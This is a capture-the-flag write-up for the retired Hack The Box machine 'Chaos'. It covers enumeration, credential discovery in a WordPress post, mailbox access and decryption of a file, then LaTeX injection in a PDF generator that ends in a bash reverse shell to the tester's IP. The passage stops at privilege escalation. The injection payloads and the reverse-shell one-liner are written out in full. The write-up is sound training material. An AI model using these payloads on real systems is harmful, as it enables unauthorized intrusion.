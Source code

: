 # Chaos

This is the write-up for the box Chaos that got retired at the 25th May 2019.
My IP address was 10.10.14.9 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.120    chaos.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/chaos.nmap 10.10.10.120
```

```markdown
PORT      STATE SERVICE  VERSION
80/tcp    open  http     Apache httpd 2.4.34 ((Ubuntu))
|_http-server-header: Apache/2.4.34 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
110/tcp   open  pop3     Dovecot pop3d
|_pop3-capabilities: SASL STLS TOP CAPA RESP-CODES PIPELINING UIDL AUTH-RESP-CODE
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Not valid before: 2018-10-28T10:01:49
|_Not valid after:  2028-10-25T10:01:49
|_ssl-date: TLS randomness does not represent time
143/tcp   open  imap     Dovecot imapd (Ubuntu)
|_imap-capabilities: OK more post-login have listed ID LOGIN-REFERRALS IDLE LITERAL+ capabilities LOGINDISABLEDA0001 Pre-login SASL-IR STARTTLS IMAP4rev1 ENABLE
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Not valid before: 2018-10-28T10:01:49
|_Not valid after:  2028-10-25T10:01:49
|_ssl-date: TLS randomness does not represent time
993/tcp   open  ssl/imap Dovecot imapd (Ubuntu)
|_imap-capabilities: OK more have post-login ID LOGIN-REFERRALS IDLE listed capabilities Pre-login AUTH=PLAINA0001 SASL-IR IMAP4rev1 LITERAL+ ENABLE
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Not valid before: 2018-10-28T10:01:49
|_Not valid after:  2028-10-25T10:01:49
|_ssl-date: TLS randomness does not represent time
995/tcp   open  ssl/pop3 Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) USER TOP CAPA RESP-CODES PIPELINING UIDL AUTH-RESP-CODE
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Not valid before: 2018-10-28T10:01:49
|_Not valid after:  2028-10-25T10:01:49
|_ssl-date: TLS randomness does not represent time
10000/tcp open  http     MiniServ 1.890 (Webmin httpd)
|_http-server-header: MiniServ/1.890
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

Browsing to the web page we get a message saying:
> Direct IP not allowed

So there could be another page when we browse there with the domain name _chaos.htb_.
When browsing there we get a different page and after clicking every link and trying everything on the page, this looks like it has no attack surface but we get one information:

> Thanks for visiting :) we are working on blog

Lets start _Gobuster_ to look for hidden paths:
```markdown
gobuster -u http://10.10.10.120/ dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

We get the path _/wp_ from which we were can browse to a WordPress page with an article that is password protected.

![WordPress page](https://kyuu-ji.github.io/htb-write-up/chaos/chaos_wp-page.png)

When seeing a WordPress page the first thing to do is to start **Nikto and **WPScan** to look for vulnerabilities and potential usernames:
```markdown
wpscan --enumerate --url 10.10.10.120/wp/wordpress

nikto -host 10.10.10.120/wp/wordpress
```

We get a username named _human_. Trying this username on the password protected article, we can read that article and it says:
```markdown
Creds for webmail :

username – ayush

password – jiujitsu
```

Those are seemingly credentials for a webmail service.


## Checking IMAP (Port 143)

As we know that IMAP is open on port 143 we will try to login there with the gained credentials.
```markdown
ncat 10.10.10.120 143

 OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE LITERAL+ STARTTLS LOGINDISABLED] Dovecot (Ubuntu) ready.
TestA001 login ayush jiujitsu
* BAD [ALERT] Plaintext authentication not allowed without SSL/TLS, but your client did it anyway. If anyone was listening, the password was exposed.
TestA001 NO [PRIVACYREQUIRED] Plaintext authentication disallowed on non-secure (SSL/TLS) connections.
```

It says that non-secure connections are not allowed so we will connect to the SSL implemtation of IMAP on port 993.
```markdown
ncat --ssl 10.10.10.120 993

* OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE LITERAL+ AUTH=PLAIN] Dovecot (Ubuntu) ready.
TestA001 login ayush jiujitsu
TestA001 OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE SORT SORT=DISPLAY THREAD=REFERENCES THREAD=REFS THREAD=ORDEREDSUBJECT MULTIAPPEND URL-PARTIAL CATENATE UNSELECT CHILDREN NAMESPACE UIDPLUS LIST-EXTENDED I18NLEVEL=1 CONDSTORE QRESYNC ESEARCH ESORT SEARCHRES WITHIN CONTEXT=SEARCH LIST-STATUS BINARY MOVE SNIPPET=FUZZY LITERAL+ NOTIFY SPECIAL-USE] Logged in
```

This verifies that the credentials work so we can set up a mail client where we can look if this user has e-mail.
I will use the mail client **Evolution** and configure it accordingly to access the mailbox of _ayush_:

![Mailbox of user](https://kyuu-ji.github.io/htb-write-up/chaos/chaos_mailbox.png)

There is this one e-mail with two attachments:
- enim_msg.txt
  - file: data; non-readable characters
- en.py
  - A python script that encrypts files
  
We need to modify the encryption script to decrypt the given file with the password _sahay_ because he hints that in the e-mail. The modified script will be found in this folder named **chaos_encrypt.py**.

```markdown
python chaos_encrypt.py

Output:
SGlpIFNhaGF5CgpQbGVhc2UgY2hlY2sgb3VyIG5ldyBzZXJ2aWNlIHdoaWNoIGNyZWF0ZSBwZGYKCnAucyAtIEFzIHlvdSB0b2xkIG1lIHRvIGVuY3J5cHQgaW1wb3J0YW50IG1zZywgaSBkaWQgOikKCmh0dHA6Ly9jaGFvcy5odGIvSjAwX3cxbGxfZjFOZF9uMDdIMW45X0gzcjMKClRoYW5rcywKQXl1c2gK
```

This is a Base64 string that we can decode:
```markdown
echo "SGlpIFNhaGF5CgpQbGVhc2UgY2hlY2sgb3VyIG5ldyBzZXJ2aWNlIHdoaWNoIGNyZWF0ZSBwZGYKCnAucyAtIEFzIHlvdSB0b2xkIG1lIHRvIGVuY3J5cHQgaW1wb3J0YW50IG1zZywgaSBkaWQgOikKCmh0dHA6Ly9jaGFvcy5odGIvSjAwX3cxbGxfZjFOZF9uMDdIMW45X0gzcjMKClRoYW5rcywKQXl1c2gK" | base64 -d
```

It says:
```markdown
Hii Sahay

Please check our new service which create pdf

p.s - As you told me to encrypt important msg, i did :)

http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3

Thanks,
Ayush
```

Browsing to the web page we get a service that seems to generate PDF files.

![PDF Generator](https://kyuu-ji.github.io/htb-write-up/chaos/chaos_pdf-creator.png)

## Exploiting the PDF-Generator service

When clicking on _Create PDF_ nothing happens, so lets analyze the request in Burpsuite.
The response of the server says:
> This is pdfTeX, Version 3.14159265-2.6-1.40.19 (TeX Live 2019/dev/Debian) (preloaded format=pdflatex)

PdfTex is part of a data formatting language called **LaTeX** and if we search for **LaTeX command execution** we will find different sources.
I will use the Cheat Sheets from [PayLoadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection).

The command execution _\immediate\write18{cat /etc/passwd}_ works and gives us the output from that file:

![Command execution successful](https://kyuu-ji.github.io/htb-write-up/chaos/chaos_rce.png)

So we can execute commands to start a reverse shell. I will use this command that listens on my IP and port 9001:
```markdown
bash -c 'bash -i >& /dev/tcp/10.10.14.9/9001 0>&1'

# URL-encoded in the request:
content=\immediate\write18{bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.9/9001+0>%261'}&template=test1
```

After sending the request we get a shell with the user _www-data_!

## Privilege Escalation

We can get the password for WordPress from the



